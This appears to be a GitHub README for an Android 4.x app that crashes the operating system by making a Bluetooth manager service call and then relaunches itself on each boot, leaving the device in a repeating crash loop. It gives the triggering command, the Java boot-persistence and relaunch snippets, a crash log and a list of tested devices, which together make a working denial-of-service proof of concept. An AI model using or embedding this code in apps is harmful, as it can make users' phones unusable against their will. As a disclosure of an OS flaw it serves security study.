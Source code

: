 android_bt_manager
==================

This Android 4.x application causes the Android runtime to crash Android.io by making a service call to bluetooth_manager. This android application also demonstrates how to launch an application, or other activities, at device startup/boot. 

**WARNING:** This application causes your Android 4.x device to crash 15 seconds after startup as well as 15 seconds after each reboot. Do not run this application without the delay in `MainActivity`. 

**How it works:**
- `MainActivity` sends service call to `IBluetoothManager`: `Runtime.getRuntime().exec("service call bluetooth_manager 1");`. This crashes the Android OS and causes the phone to shut off. 

```
W/dalvikvm(10717): threadid=16: thread exiting with uncaught exception (group=0x415c4ba8)
E/AndroidRuntime(10717): *** FATAL EXCEPTION IN SYSTEM PROCESS: android.io
E/AndroidRuntime(10717): java.lang.NullPointerException
E/AndroidRuntime(10717):        at android.os.RemoteCallbackList.register(RemoteCallbackList.java:112)
E/AndroidRuntime(10717):        at android.os.RemoteCallbackList.register(RemoteCallbackList.java:78)
E/AndroidRuntime(10717):        at com.android.server.BluetoothManagerService$BluetoothHandler.handleMessage(BluetoothManagerService.java:755)
E/AndroidRuntime(10717):        at android.os.Handler.dispatchMessage(Handler.java:102)
E/AndroidRuntime(10717):        at android.os.Looper.loop(Looper.java:136)
E/AndroidRuntime(10717):        at android.os.HandlerThread.run(HandlerThread.java:61)
```

- On startup, the `BootReceiver` class, a `BroadcastReceiver` waits for `ACTION_BOOT_COMPLETED` to start `Crash` service. 

```Java
if (Intent.ACTION_BOOT_COMPLETED.equals(intent.getAction())) {
Intent serviceIntent = new Intent(context, Crash.class);
context.startService(serviceIntent);
}
```

- `Crash` service starts the `MainActivity`, which causes the system to crash again. 

```Java
Intent i = new Intent(this, MainActivity.class);
i.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(i);
```

- Repeat. 

**Application Permissions:** 
- `RECEIVE_BOOT_COMPLETED`

**This application has been tested on the following devices:**

|   Device      |   OS   | Rooted | Runtime |
| ------------- |:------:|:------:|:-------:|
| Nexus 5       | 4.4.2  | ✓      | ART     |
| Moto X        | 4.4.3  | x      | ART     |
| Nexus 5       | 4.4.3  | ✓      | ART     |

